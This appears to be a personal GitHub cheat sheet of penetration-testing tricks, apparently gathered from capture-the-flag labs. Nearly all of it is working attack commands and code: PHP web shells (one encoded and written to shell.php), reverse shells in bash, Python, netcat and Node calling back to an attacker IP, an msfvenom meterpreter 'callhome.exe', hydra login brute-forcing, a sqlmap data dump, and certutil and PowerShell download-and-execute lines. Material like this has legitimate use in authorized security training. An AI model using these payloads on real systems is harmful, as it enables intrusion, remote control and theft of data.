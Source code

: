 # Tips and Tricks

Just various bits of script and techniques I've found useful.

## Web shells

PHP one liner:

`<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>`

PHP interactive shell:

```
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
<script>document.getElementById("cmd").focus();</script>
```

shell above emitted to a file via base64:

```
echo %50%47%5a%76%63%6d%30%67%62%57%56%30%61%47%39%6b%50%53%4a%48%52%56%51%69%49%47%35%68%62%57%55%39%49%6a%77%2f%63%47%68%77%49%47%56%6a%61%47%38%67%59%6d%46%7a%5a%57%35%68%62%57%55%6f%4a%46%39%54%52%56%4a%57%52%56%4a%62%4a%31%42%49%55%46%39%54%52%55%78%47%4a%31%30%70%4f%79%41%2f%50%69%49%2b%43%6a%78%70%62%6e%42%31%64%43%42%30%65%58%42%6c%50%53%4a%55%52%56%68%55%49%69%42%75%59%57%31%6c%50%53%4a%6a%62%57%51%69%49%47%6c%6b%50%53%4a%6a%62%57%51%69%49%48%4e%70%65%6d%55%39%49%6a%67%77%49%6a%34%4b%50%47%6c%75%63%48%56%30%49%48%52%35%63%47%55%39%49%6c%4e%56%51%6b%31%4a%56%43%49%67%64%6d%46%73%64%57%55%39%49%6b%56%34%5a%57%4e%31%64%47%55%69%50%67%6f%38%4c%32%5a%76%63%6d%30%2b%43%6a%78%77%63%6d%55%2b%43%6a%77%2f%63%47%68%77%43%69%41%67%49%43%42%70%5a%69%68%70%63%33%4e%6c%64%43%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4b%51%6f%67%49%43%41%67%65%77%6f%67%49%43%41%67%49%43%41%67%49%48%4e%35%63%33%52%6c%62%53%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4f%77%6f%67%49%43%41%67%66%51%6f%2f%50%67%6f%38%4c%33%42%79%5a%54%34%4b%50%48%4e%6a%63%6d%6c%77%64%44%35%6b%62%32%4e%31%62%57%56%75%64%43%35%6e%5a%58%52%46%62%47%56%74%5a%57%35%30%51%6e%6c%4a%5a%43%67%69%59%32%31%6b%49%69%6b%75%5a%6d%39%6a%64%58%4d%6f%4b%54%73%38%4c%33%4e%6a%63%6d%6c%77%64%44%34%3d | base64 -d > shell.php
```

## Reverse shells

Bash (almost never works in my experience):

`bash -i >& /dev/tcp/10.10.194.3/4444 0>&1`

Python (almost always works in my experience):

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.194.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Netcat when you dont have the -e option (this actually worked once when the others didnt!):

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.194.3 4444 >/tmp/f`

Node reverse shell, if you can get this included on a nodejs server:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.227.15", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

## shell tricks

making a bad reverse shell better:

`python -c 'import pty; pty.spawn("/bin/bash")'`

bypassing url encoding if doing something sneaky like get[cmd]:

`echo urlencoded | base64 -d > shell.php`

creating a windows exe that will call home:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.100.16 LPORT=4443 -f exe -o callhome.exe`

## Brute forcing with hydra

`hydra -l admin -P ./rockyou.txt 10.10.207.186 http-post-form "/Account/login.php:username=^USER^&password=^PASS^&login=login:Login failed"`

The below targets an aspx page, that needed viewstate to go with it in order to get the error message back:

`hydra -l admin -P ./rockyou.txt 10.10.207.186 http-post-form "/Account/login.aspx:__VIEWSTATE=pIru3H%2F3LYg1qp3lNSwHX1ALuENNV6tddZ32Zp4xRIs57ec4jlYH9sp8EHtZ0sp66EsCaToBXZLEbw62lNBT7XuKpv84ZHetBU3stATD5DYczl9JagBTENtoK%2B6lyNFyDsrRWb34%2F9jXclG%2FsQWa1tJXjQAYZJP2MJNhNaH2WMIL%2FQf9&__EVENTVALIDATION=lQWGlUQ0Fmhz%2BuiWoqOKaexWGfGTltskH%2FV3RsXfmd%2B8N5m8JCLGWXUm7pFZQj0G0QjJMd3MLudMx0zUAlot%2BanlZVtlggDnm3e%2B2DNiDwnhrETOWRZdwtNypSULvwzs8ZlD1SiHFFPASQz1PJN12l5Fi3uL4UCohXb%2BBjCo1nU5Sz7I&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"`

## use sqlmap to exploit a blind sql vector (knowing which param and vector to use)

Raw sqlmap will go through all its tests, which might take ages. If you know the test to use, then you can actually specify it in the sqlmap command.

`sqlmap -u "http://10.10.69.3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --test-filter="MySQL >= 5.0 error-based - Parameter replace (FLOOR)" --random-agent --dump -p list[fullordering]`

In the above, exploiting https://www.exploit-db.com/exploits/42033, I know the param and the test that will work, so I specify both and jump straight to the dumping.

## downloading files from the windows command prompt

without the use of powershell or anything clever. great for pulling files off my attacker machine

```
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/callhome.exe" callhome.exe
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/callhome2.exe" callhome2.exe
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/winPEAS.bat" winPEAS.bat
```

with powershell (first also invokes a script, in this case Invoke-PowerShellTcp from Nishang):

`println "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.100.16:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.100.16 -Port 4444".execute().text`

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.139.149:8000/callhome.exe','callhome.exe')"`

## cracking zips

apart from zip2john and john, there is also `fcrackzip -b --method 2 -D -p rockyou.txt -v extracted.zip`